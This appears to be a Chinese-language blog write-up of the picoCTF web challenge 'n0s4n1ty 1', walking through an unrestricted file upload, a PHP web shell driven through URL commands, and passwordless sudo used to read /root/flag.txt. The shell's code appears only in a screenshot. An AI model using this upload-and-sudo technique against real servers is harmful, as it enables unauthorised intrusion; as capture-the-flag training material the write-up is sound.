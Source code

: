 ```yaml
---
title: n0s4n1ty 1
published: 2025-07-10
updated: 2025-07-10
description: "picoCTF"
image: ""
tags: ["CTF Writeup", "picoCTF", "Web"]
category: "picoCTF"
draft: false
---
```


# n0s4n1ty 1

一進到網站會發現可以上傳檔案，開`F12`還會發現上傳沒有限制檔案類型

![home](/assets/picoCTF/n0s4n1ty1/image.png)

先建立`shell.php`

![alt text](/assets/picoCTF/n0s4n1ty1/image-5.png)

(本來想直接貼上來的，但是 windows 會一直幫我刪掉，真是謝囉)

然後把 `shell.php` 上傳上去

![alt text](/assets/picoCTF/n0s4n1ty1/image-1.png)

進到 `/uploads/shell.php?cmd=ls /root` 之後會發現 /root 底下沒有顯示任何檔案

檢查一下 `/uploads/shell.php?cmd=id`

```txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

會發現使用者 `www-data` 可以不需要密碼以 sudo 執行任何指令（權限等於 root）

![alt text](/assets/picoCTF/n0s4n1ty1/image-2.png)

重新加上 sudo 檢查 `/root`

![alt text](/assets/picoCTF/n0s4n1ty1/image-3.png)

`/uploads/shell.php?cmd=sudo cat /root/flag.txt`

![alt text](/assets/picoCTF/n0s4n1ty1/image-4.png)
